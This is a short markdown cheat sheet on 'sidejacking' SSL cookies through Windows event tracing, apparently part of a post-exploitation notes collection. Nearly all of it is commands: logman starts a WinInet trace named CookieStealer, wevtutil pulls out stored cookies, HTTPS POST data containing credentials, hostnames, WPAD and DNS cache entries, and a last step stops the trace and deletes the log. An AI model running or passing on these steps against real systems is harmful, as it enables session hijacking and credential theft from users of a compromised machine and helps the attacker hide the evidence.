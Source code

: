 # Sidejacking SSL Cookies

Activate the event tracing for the WinInet process. Wait for the target to do web browsing activity.

```
C:\> logman.exe start CookieStealer -p Microsoft-Windows-WinInet -o C:\temp\cookiesteal.etl -ets
```

Steal the cookies.

```
C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "cookie added"
```

Steal credentials from HTTPS form websites via HTTP POST request.

```
C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "POST"
```

Monitor activities for additional information such as, DNS requests, Proxy information, DNS Cache snooping and more.

```
C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "hostname"

C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "WPAD"

C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find /i "DNS Cache"
```

Once you've collected for what you're looking for deactivate event logging and delete the cookie.

```
C:\> logman.exe stop CookieStealer -ets

C:\> del C:\temp\cookiesteal.etl
```

---
## References

- [Security Weekly: Sidejacking SSL Cookies (and more) with ETW – Post Exploitation](https://www.scmagazine.com/sw-article/sidejacking-ssl-cookies-and-more-with-etw-post-exploitation)